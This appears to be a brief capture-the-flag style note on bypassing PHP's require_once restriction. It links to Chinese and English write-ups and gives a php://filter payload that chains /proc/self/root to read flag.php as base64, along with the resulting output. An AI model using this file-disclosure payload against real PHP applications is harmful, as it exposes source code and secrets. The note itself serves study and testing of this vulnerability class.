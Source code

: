 # 文章
[php源码分析 require_once 绕过不能重复包含文件的限制-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/213235)<br />[Require_once Bypass - ROIS Blog](https://blog.rois.io/2020/require_once-bypass/)<br />[php源码分析 require_once 绕过不能重复包含文件的限制-安全客 - 安全资讯平台.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1689401573835-fdc92285-848a-48c9-a6b5-9d2d1591d7fa.pdf)

```http
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

//result PD9waHAKCiRmbGFnPSJ0ZXN0e30iOwo=
```
